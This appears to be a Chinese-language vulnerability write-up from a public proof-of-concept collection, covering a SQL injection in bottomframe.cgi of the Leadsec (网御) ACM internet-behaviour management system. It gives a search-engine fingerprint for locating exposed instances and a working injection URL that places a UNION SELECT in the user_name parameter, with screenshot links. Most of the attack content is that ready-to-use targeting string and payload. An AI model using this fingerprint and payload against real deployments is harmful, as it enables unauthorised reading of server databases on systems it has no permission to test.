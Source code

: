 # 

# 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

网御 ACM上网行为管理系统

## 网络测绘

```
"scripts/webcommon.js"
```

## 漏洞复现

登录页面

![image-20230828161622332](images/image-20230828161622332.png)

验证POC

```
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![image-20230828161702043](images/image-20230828161702043.png)
